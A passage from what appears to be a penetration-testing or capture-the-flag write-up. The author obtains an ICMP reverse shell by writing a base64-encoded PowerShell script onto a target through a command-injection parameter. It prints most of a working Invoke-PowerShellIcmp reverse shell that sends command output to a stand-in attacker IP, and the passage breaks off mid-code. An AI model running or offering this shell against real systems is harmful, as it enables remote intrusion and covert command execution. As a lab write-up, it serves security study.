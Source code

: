 After some research, I quickly found the [icmpsh shell](https://github.com/inquisb/icmpsh) and the Powershell client [Invoke-PowershellShellIcmp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1). I used [this](https://pentestlab.blog/tag/icmpsh/) reference. The icmpsh I would run in my attacker box and the Invoke-PowerShellIcmp.ps1 on the target machine. Because I was not allowed to download any files, my only option was to build the file through the use of echo commands. My plan was once the file was built on the target system, I would launch a powershell command to execute it. After trying a few times manually, using Burp proxy, I decided to automate the process by writing a Python script. Then my nightmare started. I spent several days fighting with URL and shell encodings. I knew that I had to URL encode at least one time the value of parameter xcmd, however, I found out later, the value passed to the echo command, also needed some especial escaping. I used [this](https://sites.google.com/site/opensourceconstriubtions/ettl-martin-1/tutorials/how-to-escape-special-characters-in-windows-batch-files-when-using-echo) reference. The especial characters of the Powershell code of Invoke-PowerShellIcmp.ps1 were breaking the echo command and make the request return the Exit Status=1. I then decided that it would be easier to convert the Invoke-PonvwerShellIcmp.ps1 file to base64 and use that as the value for the echo commands. I also minimized the code in Invoke-PowerShellIcmp.ps1, by removing comments and blank lines. Also, to avoid having to run another Powershell command, I added Invoke-PowerShellIcmp MY_ATTACKER_IP to the end of Invoke-PowerShellIcmp.ps1. The final result was:

{% highlight powershell %}
function Invoke-PowerShellIcmp
{
[CmdletBinding()] Param(
[Parameter(Position = 0, Mandatory = $true)]
[String]
$IPAddress,
[Parameter(Position = 1, Mandatory = $false)]
[Int]
$Delay = 5,
[Parameter(Position = 2, Mandatory = $false)]
[Int]
$BufferSize = 128
)
$ICMPClient = New-Object System.Net.NetworkInformation.Ping
$PingOptions = New-Object System.Net.NetworkInformation.PingOptions
$PingOptions.DontFragment = $True
$sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
$ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
$sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '> ')
$ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
while ($true)
{
$sendbytes = ([text.encoding]::ASCII).GetBytes('')
$reply = $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions)
if ($reply.Buffer)
{
$response = ([text.encoding]::ASCII).GetString($reply.Buffer)
$result = (Invoke-Expression -Command $response 2>&1 | Out-String )
$sendbytes = ([text.encoding]::ASCII).GetBytes($result)
$index = [math]::floor($sendbytes.length/$BufferSize)
$i = 0
if ($sendbytes.length -gt $BufferSize)
{
while ($i -lt $index )
{
$sendbytes2 = $sendbytes[($i*$BufferSize)..(($i+1)*$BufferSize-1)]
$ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
$i +=1
}
$remainingindex = $sendbytes.Length % $BufferSize
if ($remainingindex -ne 0)
{